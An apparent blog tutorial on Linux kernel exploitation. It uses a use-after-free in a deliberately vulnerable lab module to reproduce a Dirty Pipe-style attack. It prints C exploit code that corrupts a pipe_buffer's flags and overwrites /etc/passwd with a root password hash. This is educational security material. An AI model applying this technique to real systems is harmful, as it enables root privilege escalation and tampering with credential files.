 ```yaml
---
title: Linux Kernel Exploitation - Dirty Pipe
date: 2025-04-30
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty Pipe, a universal and data-only exploitation technique that allows us to arbitrarily overwrite read-only files. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pipe) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kzalloc` with the `GFP_KERNEL` flag. This means the object will be allocated from kmalloc-1k:
```c
static long obj_alloc(void) {
    if (obj != NULL) {
        return -1;
    }
    obj = kzalloc(sizeof(struct obj), GFP_KERNEL);
    if (obj == NULL) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `obj`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(void) {
    kfree(obj);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, it is not difficult to control RIP and escalate privileges. However, in this post, we take a data-only approach using Dirty Pipe. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty Pipe
The essence of Dirty Pipe is that when splicing a read-only file to a pipe, the `flags` field in the corresponding `struct pipe_buffer` can be set to `PIPE_BUF_FLAG_CAN_MERGE`, which enables arbitrary overwrites of the read-only file by writing to the pipe.
In the [original bug](https://dirtypipe.cm4all.com/) (now patched), this was possible because the `flags` field was left uninitialized.
However, in our case, we have a UAF primitive, and since CONFIG_MEMCG is disabled, the array of `struct pipe_buffer` is also allocated from kmalloc-1k in `alloc_pipe_info`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
```

This allows us to recreate the same situation by overwriting the `flags` field. This method is called the [pipe primitive](https://github.com/veritas501/pipe-primitive).

## Exploitation
First, we allocate and free the victim object:
```c
puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Freeing the victim object");
obj_free();
```
Next, we allocate an array of `struct pipe_buffer` and overlap it with the freed victim object:
```c
puts("[*] Allocating pipe buffers to reclaim the memory");
int pipefd[2];
assert(pipe(pipefd) != -1);
```
Next, splice /etc/passwd to the pipe:
```c
int filefd = open("/etc/passwd", O_RDONLY);
assert(filefd != -1);
long offset = 0;
assert(splice(filefd, &offset, pipefd[1], NULL, 1, 0) != -1);
```
Note that we need to splice at least one byte because of the check in `do_splice_read`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/splice.c#L967-L968
static ssize_t do_splice_read(struct file *in, loff_t *ppos,
                  struct pipe_inode_info *pipe, size_t len,
                  unsigned int flags)
{
    ...
    if (!len)
        return 0;
```
Next,we leak the contents of the `struct pipe_buffer` and overwrite its `flags` member with `PIPE_BUF_FLAG_CAN_MERGE`:
```c
puts("[*] Leaking the contents of pipe->bufs[0]");
struct pipe_buffer fake_pipe_buffer;
obj_read((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
printf(
    "[+] .page = %p, .offset = %#x, .len = %#x, .ops = %p, .flags = %#x, .private = %#lx\n", 
    fake_pipe_buffer.page,
    fake_pipe_buffer.offset,
    fake_pipe_buffer.len,
    fake_pipe_buffer.ops,
    fake_pipe_buffer.flags,
    fake_pipe_buffer.private
);

puts("[*] Overwriting .len with 0 and .flags with PIPE_BUF_FLAG_CAN_MERGE");
fake_pipe_buffer.len = 0;
fake_pipe_buffer.flags = PIPE_BUF_FLAG_CAN_MERGE;
obj_write((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
```
Note that we also overwrite `len` member to be 0 because the data will be written from `offset + len` in `pipe_write`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```
Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh";
printf("[*] Overwriting /etc/passwd with %s\n", payload);
assert(write(pipefd[1], payload, sizeof(payload)) != -1);
```
By running this exploit, we can log in as a root user and see the flag:

![win](/assets/img/posts/2025-04-30-4/win.png)

## References
1. Max Kellermann. 2022. The Dirty Pipe Vulnerability. https://dirtypipe.cm4all.com/